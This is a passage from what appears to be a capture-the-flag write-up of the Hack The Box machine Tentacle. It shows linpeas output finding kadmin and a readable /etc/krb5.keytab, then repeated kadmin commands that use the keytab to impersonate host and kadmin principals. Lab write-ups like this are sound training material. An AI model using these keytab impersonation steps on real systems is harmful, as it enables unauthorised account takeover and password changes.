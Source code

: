 ![](/assets/img/posts/tentacle/k5admin.png)


## kadmin

Runing linpeas from "admin" found some interesting kerberos information.

Found [kadmin](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html) utility
```bash
kadmin was found on /usr/bin/kadmin
```

Found readable [`krb5.keytab`](https://web.mit.edu/kerberos/krb5-1.5/krb5-1.5.4/doc/krb5-install/The-Keytab-File.html) file
```bash
keytab file found, you may be able to impersonate some kerberos principals and add users or modify passwords
Keytab name: FILE:/etc/krb5.keytab
KVNO Principal
---- --------------------------------------------------------------------------
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 host/srv01.realcorp.htb@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/changepw@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
   2 kadmin/admin@REALCORP.HTB
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "host/srv01.realcorp.htb@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
  --- Impersonation command: kadmin -k -t /etc/krb5.keytab -p "kadmin/changepw@REALCORP.HTB"
```